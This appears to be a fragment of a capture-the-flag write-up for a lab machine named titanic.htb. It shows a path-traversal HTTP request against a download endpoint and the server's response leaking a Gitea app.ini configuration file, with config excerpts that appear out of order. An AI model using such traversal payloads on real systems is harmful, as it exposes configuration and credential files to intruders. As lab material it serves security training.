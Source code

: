 ```bash
[picture]
AVATAR_UPLOAD_PATH = /data/gitea/avatars
REPOSITORY_AVATAR_UPLOAD_PATH = /data/gitea/repo-avatars

[attachment]
PATH = /data/gitea/attachments

[log]
MODE = console
LEVEL = info
ROOT_PATH = /data/gitea/log

[security]
INSTALL_LOCK = false
SECRET_KEY   = 
REVERSE_PROXY_LIMIT = 1
REVERSE_PROXY_TRUSTED_PROXIES = *

[service]
DISABLE_REGISTRATION = false
REQUIRE_SIGNIN_VIEW  = false

[lfs]
PATH = /data/git/lfs

# Saerchin files in remote machine
# GET
GET /download?ticket=../../../../../../home/developer/gitea/data/gitea/conf/app.ini HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/book
Origin: http://titanic.htb
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

# ANS
HTTP/1.1 200 OK
Date: Mon, 30 Jun 2025 04:40:49 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="../../../../../../home/developer/gitea/data/gitea/conf/app.ini"
Content-Type: application/octet-stream
Content-Length: 2004
Last-Modified: Fri, 02 Aug 2024 10:42:14 GMT
Cache-Control: no-cache
ETag: "1722595334.8970726-2004-3839433238"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea

[repository]
ROOT = /data/git/repositories

[repository.local]
```